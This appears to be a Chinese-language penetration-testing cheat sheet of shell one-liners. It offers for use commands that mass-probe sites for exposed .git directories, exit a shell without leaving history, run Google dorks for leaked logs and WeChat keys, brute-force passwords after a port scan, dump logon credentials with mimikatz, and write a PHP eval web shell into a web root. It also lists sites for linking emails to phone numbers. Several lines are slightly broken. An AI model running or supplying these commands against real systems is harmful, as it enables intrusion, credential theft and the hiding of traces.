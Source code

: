 ### 从文件中提起出网址
```
cat file | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
```

![image-20200908083337439](index.assets/image-20200908083337439.png)

### 批量检测`.git`泄露

```
cat domains.txt | sed 's#$#/.git/HEAD#g' | while read host do ; do echo -en "$host --> " ;curl -I -m 10 -o /dev/null -s -w %{http_code} $host;e
cho ;done;
```

```
localhost:~# cat domains.txt
http://10.7.10.112:81
http://10.7.10.112:81
http://10.7.10.112:81
http://10.7.10.112:81
http://10.7.10.112:81
http://10.7.10.112:81
http://10.7.10.112:81
http://10.7.10.112:81
http://10.7.10.112:81
```

```
localhost:~# cat domains.txt | sed 's#$#/.git/HEAD#g' | while read host do ; do echo -en "$host --> " ;curl -I -m 10 -o /dev/null -s -w %{http_code} $host;e
cho ;done;
http://10.7.10.112:81/.git/HEAD --> 200
http://10.7.10.112:81/.git/HEAD --> 200
http://10.7.10.112:81/.git/HEAD --> 200
http://10.7.10.112:81/.git/HEAD --> 200
http://10.7.10.112:81/.git/HEAD --> 200
http://10.7.10.112:81/.git/HEAD --> 200
http://10.7.10.112:81/.git/HEAD --> 200
http://10.7.10.112:81/.git/HEAD --> 200
http://10.7.10.112:81/.git/HEAD --> 200
```

- -I 仅测试HTTP头
- -m 10 最多查询10s
- -o /dev/null 屏蔽原有输出信息
- -s silent 模式，不输出任何东西
- -w %{http_code} 控制额外输出

### 退出shell，但是不保存历史记录

```
kill -9 $$
unset HISTFILE && exit
```

### 条件语句判断

```
true && echo success
false || echo failed
```

### 静态http服务器

```
busybox httpd -p $PORT -h $HOME [-c httpd.conf]
```

### Python开启HTTP服务

```
# Python 3.x
python3 -m http.server 8000 --bind 127.0.0.1

# Python 2.x
python -m SimpleHTTPServer 8000
```



### Python编码解码Base64

```
python -m base64 -e <<< "sample string"   编码
python -m base64 -d <<< "dGhpcyBpcyBlbmNvZGVkCg=="   解码
```

### Google Hack 查找敏感信息

```
intitle:"Everything"  intext:"上一目录"
```

### Linux 开机启动

```
systemctl enable ssh
```

### 使用Nmap扫描端口后，对开放的端口进行密码爆破

```
kali@kali:~/tools/t14m4t$ ./t14m4t  192.168.3.1 10

__  ____   _____             _____   __
_/  |/_   | /  |  |  _____    /  |  |_/  |_
\   __\   |/   |  |_/     \  /   |  |\   __\
 |  | |   /    ^   /  Y Y  \/    ^   /|  |
 |__| |___\____   ||__|_|  /\____   | |__|
      by: n1x_ |__|MS-WEB\/      |__|
       The Automatic Bruteforce Tool

[*] Target: 192.168.3.1 Number of threads: 10.
[*] Starting agressive scan of supported ports against: 192.168.3.1...

Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-08 22:06 EDT
Initiating Parallel DNS resolution of 1 host. at 22:06
Completed Parallel DNS resolution of 1 host. at 22:06, 0.01s elapsed
Initiating Connect Scan at 22:06
Scanning 192.168.3.1 [26 ports]
```

### 抓取Google URL

```
for ((i=1;i<=10;i++));do curl -i -s -k -L -X GET -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0" "https://www.google.com/search?sourceid=chrome-psyapi2&ion=1&espv=2&ie=UTF-8&start=${i}0&q=site:edu.cn%20.php?id=" | grep -Eo 'href="[^\"]+"' | grep -Po "(http|https)://[a-zA-Z0-9./?=_%:-]*" | grep ".php?id" | sort -u ;done
```

### Google Hack 找Tomcat
```
intext:"$CATALINA_HOME/webapps/ROOT/"  intitle:"Apache Tomcat"
```

### Google Hack 找 微信私钥

```
filetype:log  api.weixin
```



### Docker 安装 AWVS

```
#  pull 拉取下载镜像
docker pull secfa/docker-awvs

#  将Docker的3443端口映射到物理机的 13443端口
docker run -it -d -p 13443:3443 secfa/docker-awvs

# 容器的相关信息
awvs13 username: admin@admin.com
awvs13 password: Admin123
AWVS版本：13.0.200217097
```

### Tomcat 部署修改manager配置弱口令

> conf/tomcat-users.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <role rolename="manager-gui"/>
<user username="tomcat" password="tomcat" roles="manager-gui"/>
</tomcat-users>
```

> webapps\manager\META-INF\context.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Context antiResourceLocking="false" privileged="true" >
  <Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="127\.\d+\.\d+\.\d+|::1|0:0:0:0:0:0:0:1|\d+\.\d+\.\d+\.\d+" />
  <Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/>
</Context>

```

### 非交互式获取密码

```
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full""  exit >> shash.txt
```

### 写入一句话木马

```
fputs(fopen('C:/phpStudy/www/222.php','w'),'<?php eval($_POST["cmd"];)?>');

file_put_contents('C:/phpStudy/WWW/222.php','<?php eval($_POST["cmd"];)?>');
```

### 邮箱->手机号码

```
https://www.jd.com 京东
https://www.taobao.com/ 淘宝
https://www.alipay.com/ 支付宝
https://weibo.com/ 微博
https://secure.www.apple.com.cn/ APPLE
https://www.ctrip.com/ 携程
```

### Arch install Mysql

```
# 安装数据库
sudo pacmain -S mysql

# 初始化数据库
sudo mysql_install_db --user=mysql --ldata=/var/lib/mysql

# 修改用户密码
SET PASSWORD FOR 'root'@'%' = PASSWORD('123456');

# 修改远程登录
REName user 'root'@'localhost' to 'root'@'%';
```

